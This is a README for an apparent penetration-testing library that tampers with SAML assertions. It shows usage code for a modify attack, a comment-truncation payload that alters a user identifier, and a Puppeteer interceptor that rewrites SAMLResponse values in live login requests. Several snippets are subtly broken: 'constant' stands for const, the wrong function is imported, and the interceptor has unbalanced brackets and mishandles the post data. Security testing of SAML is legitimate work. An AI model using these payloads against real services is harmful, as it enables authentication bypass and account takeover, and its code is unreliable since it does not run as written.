 # saml-attacks

Common saml attacks for penetration testing.

## Supported Attacks

- [x] Modify
- [ ] Comment Truncation
- [ ] XSW 1
- [ ] XSW 2
- [ ] XSW 3
- [ ] XSW 4
- [ ] XSW 5
- [ ] XSW 6
- [ ] XSW 7
- [ ] XSW 8

## Usage

**Modify Attack**

```js
const { ModifyAttack } = require("saml-attacks");

constant modifiedSaml = await ModifyAttack(xml, 'uid', 'modified')
```

**Comment Truncation Attack**

```js
const { ModifyAttack } = require("saml-attacks");

constant modifiedSaml = await ModifyAttack(xml, 'uid', 'te<!-- attack -->st')
```

With puppeteer proxy

```js
const { CommentTruncationAttack } = require("saml-attacks");

page.on("request", async (request) => {
  if( request.url().includes(target_url) {
    let post_data = request.postData();
    let saml_response = post_data.SAMLResponse;
    modified_saml_response = CommentTruncationAttack(saml_response, "assertion_field", "comment");
    post_data.SAMLResponse = modified_saml_response;
    
    await request.continue({
      method: "POST",
      postData: qs.stringify(post_data),
      headers: {
        ...request.headers(),
        "Content-Type": "application/x-www-form-urlencoded",
      }
    };
  } else {
    await request.continue();
  }
})
```
